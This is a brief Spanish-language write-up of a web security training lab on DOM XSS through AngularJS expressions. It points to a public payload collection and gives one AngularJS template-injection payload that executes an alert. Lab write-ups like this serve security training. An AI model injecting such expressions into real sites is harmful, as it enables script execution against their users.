


# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

Revisando los recursos encontraremos que se hace uso de `angular` 



Investigando un poco encontraremos el siguiente recurso:

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

```c
{{constructor.constructor('alert("xss")')()}}
```



